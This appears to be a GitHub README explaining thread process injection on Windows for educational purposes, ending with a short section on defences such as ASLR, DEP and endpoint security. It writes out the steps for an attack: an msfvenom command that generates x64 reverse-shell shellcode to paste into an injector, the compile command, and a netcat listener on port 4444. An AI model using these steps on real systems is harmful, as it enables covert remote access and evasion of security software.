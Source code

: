 # SimpleTPI

writing these materials for myself and for educational purposes .i will write long explanetion about every line of code for better understanding ..


Writing these materials for myself and for educational purposes. I will write long explanations about every line of code for better understanding.

So, what is thread process injection?

TPI is a technique that allows an attacker to inject code into a running process and create a new thread that will execute the injected code. The goal of the attacker with this technique is to take control of the process. This is often used to evade detection, as the injected code runs within the context of a legitimate process and "hides" in the stack, making it difficult for security software to detect.

I will run the script by creating a VM in my case, is Kali Linux.

In the console, we type the command below:

```
ifconfig
```
Then take the VM IP we want to use as a "hacker" machine:

```
eth: flags=8908<UP,BROADCAST,SMART,RUNNING,SIMPLEX,MULTICAST> mtu 2938
    options=3<RXCSUM,TXCSUM>
    ether xx:xx:xx:xx:xx:xx 
    inet xx.xx.xxx.xx netmask 0xfff0 broadcast xx.xx.xx.xx
```
I choose to use this exploit for the reverse shell, of course, you can choose any:

```
msfvenom -p windows/x64/shell_reverse_tc LHOST=xx.xx.xxx.xx LPORT=4444 -f c
```
Then we have the shell code, and we will insert it in the line of code - shellcode[] = {`here`}

![Screenshot 2023-01-24 at 10 50 42](https://user-images.githubusercontent.com/122444563/214353717-a4f88edd-6681-48

Once we have the script as shown in the screenshot above, we will change the file mode for the .exe using the command 
```
cl /Tc <filename>.cpp
```
 Then, we will switch back to the VM and listen to the specified port using the command
```
 nc -nlvp 4444
```
 We will then execute the program on our "hacker station" and we should have access.
 
<img width="552" alt="Screenshot 2023-01-24 at 13 58 20" src="https://user-images.githubusercontent.com/122444563/214379873-a32fb0de-24e1-4a36-a9fe-b880ea83f9e0.png">

To verify that the process has been injected, we can use the HackerProcess tool and find the notepad.exe process Properties -> Memory -> Protection column RWX (Read, Write, Execute) and can find in the memory region the reverse shell code.

![Screenshot 2023-01-25 at 10 50 03](https://user-images.githubusercontent.com/122444563/214526424-fedc65e8-3ddd-40f6-b285-5f9486dae2e6.png)

To defend against process injection in a company, it is important to keep in mind that no single solution can completely protect against thread process injection, and it is necessary to use a combination of techniques to maximize the security of your system. Using memory protection techniques like ASLR and DEP can make it more difficult for an attacker to inject code into a running process by making it harder to predict the location of memory blocks. Additionally, endpoint security solutions can be configured to block some types of process injection based on common sequences of behavior that occur during the injection process.
_____________________
